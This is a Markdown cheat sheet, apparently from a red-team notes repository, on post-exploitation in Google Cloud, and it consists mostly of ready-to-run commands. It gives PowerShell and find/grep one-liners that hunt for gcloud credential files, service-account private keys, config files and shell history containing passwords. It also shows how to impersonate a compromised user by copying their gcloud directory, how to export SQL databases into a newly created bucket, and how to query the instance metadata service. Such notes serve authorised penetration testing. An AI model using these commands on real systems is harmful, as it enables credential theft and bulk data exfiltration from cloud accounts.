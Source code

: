 # Post exploitation
## Index
* [Getting-credentials](#Getting-credentials)
  * [Credential Files](#Credential-Files)
  * [Web config and App config files](#Web-config-and-App-config-files)
  * [Internal repositories](#Internal-repositories)
  * [Command history](#Command-history)
* [Data harvesting](#Data-harvesting)
  * [Export google data](#Export-google-data) 
  * [Export SQL databases](#Export-SQL-databases)
  * [Export buckets](#Export-buckets)
* [Metadata Service URL](#Metadata-Service-URL)

## Getting credentials
### Credential Files
#### External application (default credential)
- Stored in `$HOME/.config/gcloud/application_default_credentials.json` or `%APPDATA%\gcloud\application_default_credentials.json`
- Or `$env:GOOGLE_APPLICATION_CREDENTIALS=` variable
```
Get-ChildItem -Path C:\users\* -Include *application_default_credentials.json* -Recurse -Force -ErrorAction silentlycontinue

find /home/ -iname application_default_credentials.json 2>/dev/null

env | grep GOOGLE
```

#### User identity login
- Saved in `$HOME/.config/gcloud/` or `%APPDATA%\gcloud\`
- Value stored in sqllite database. `access_tokens.db`, table `access_tokens.db`.
```
Get-ChildItem C:\Users\* -Name gcloud -Directory -Recurse -Force -ErrorAction silentlycontinue

find /home/ -iname gcloud 2>/dev/null
```

#### Auth as compromised user
- Copy `gcloud` dir to your own home directory to auth as the compromised user
```bash
sudo cp -r /home/<USER>/.config/gcloud ~/.config
sudo chown -R <USER>:<USER> ~/.config/gcloud
gcloud auth list
```

#### Json key files
- Find json key files for service accounts. Doesn't have a default name. But layout is:
```
{                                                                                                                                                              
  "type": "service_account",
  "project_id": "<PROJECT ID>",
  "private_key_id": "<ID>",
  "private_key": "<KEY>",
  "client_email": "<SERVICE ACCOUNT EMAIL>",                                                                                       
  "client_id": "<ID>",                                                                                                                        
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",                                                                                                     
  "token_uri": "https://oauth2.googleapis.com/token",                                                                                                          
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",                                                                                 
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/svc-acc%40alert-nimbus-335411.iam.gserviceaccount.com"
} 
```

```
grep -ir --include=\*.json 'private_key_id' / 2>/dev/null

Get-ChildItem C:\ -Recurse -Force -Include *.json -Erroraction silentlycontinue | Select-String "private_key_id"
```

#### Authenticate with key file
```
gcloud auth activate-service-account --key-file key.json
```

### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog

### Command history
- Look through command history
- `~/.bash_history` or `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
cat <FILE> | select-string password
cat <FILE> | select-string secure

Get-Childitem -Path C:\* -Force -Include *transcript* -Recurse -ErrorAction SilentlyContinue
type C:\Transcripts\20210422\PowerShell_transcript.DESKTOP-M7C1AFM.6sZJrDuN.20210422230739.txt
```

## Data harvesting
### Export google data 
- https://takeout.google.com

### Export SQL databases
#### List SQL databases
```
gcloud sql instances list
gcloud sql databases list --instance <instance name>
gcloud spanner instances list
gcloud spanner databases list --instance <instance name>
gcloud bigtable instances list
```

#### Create new storage bucket, change perms, export SQL DB
```
gsutil mb gs://<googlestoragename>
gsutil acl ch -u <service account> gs://<googlestoragename>
gcloud sql export sql <sql instance name> 
gs://<googlestoragename>/sqldump.gz --database=<database name>
```

### Export buckets
```
gsutil cp gs://bucket-name/folder/ 
```

### Metadata Service URL

```bash
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"
```
